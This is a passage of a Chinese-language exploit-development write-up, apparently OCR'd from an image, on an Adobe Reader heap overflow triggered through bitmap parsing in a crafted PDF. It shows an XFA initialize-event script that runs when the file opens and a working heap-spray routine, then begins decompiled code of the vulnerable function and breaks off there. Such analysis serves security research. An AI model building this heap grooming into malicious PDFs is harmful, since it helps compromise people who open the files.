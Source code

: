 ```
&lt;event activity="initialize" name="event__initialize"&gt;
        &lt;script contentType="application/x-javascript"&gt;
        &lt;/script&gt;
&lt;/event&gt;
```

该标签里的脚本会在Adobe Reader打开pdf文件开始时执行，也就是在解析bitmap之前执行，因此，我们可以在这里进行堆喷布局，pdf模板内xdp标签内的关键内容如下

```
&lt;variables&gt;
         &lt;script name="spray" contentType="application/x-javascript"&gt;
            //全局变量
            var size = 200;
            var array = new Array(size);
         &lt;/script&gt;
         &lt;?templateDesigner expand 1?&gt;
      &lt;/variables&gt;
      &lt;event activity="initialize" name="event__initialize"&gt;
        &lt;script contentType="application/x-javascript"&gt;
           // 在漏洞触发之前，我们布局好堆布局
           function fillHeap() `{`
               var i;
               var j;
               spray.array[0] = new ArrayBuffer(0x130);
               //var dv = new DataView(spray.array[0]);
               // dv.setUint32(0, 0x66666666, true);
               //dv = null;
               for (i = 0; i &amp;lt; spray.array.length; ++i) `{`
                  spray.array[i] = spray.array[0].slice();
                  //spray.array[i] = new ArrayBuffer(0x130);
                  //var dv = new DataView(spray.array[i]);
                  //dv.setUint32(0,i, true);
               `}`
               for (j = 0; j &amp;lt; 0x1000; j++) `{`
                  for (i = spray.size - 1; i &amp;gt; spray.size / 4; i -= 10) `{`
                     spray.array[i] = null;
                  `}`
               `}`
           `}`
           fillHeap();
           app.alert("[!] ready to go");
        &lt;/script&gt;
      &lt;/event&gt;
```

堆布局配置好了，接着我们分析一下程序如何才能到达漏洞点进而溢出

```
unsigned int __thiscall sub_20D4B4AF(_DWORD *this)
`{`
  _DWORD *v1; // edi
  int v2; // ecx
  bool v3; // zf
  int v4; // eax
  unsigned int v5; // esi
  int v6; // eax
  int v7; // ecx
  int v8; // ecx
  unsigned __int16 v9; // ax
  int v10; // edx
  unsigned int v11; // esi
  int v12; // ecx
  int v13; // ecx
  int v14; // ecx
  int v15; // ecx
```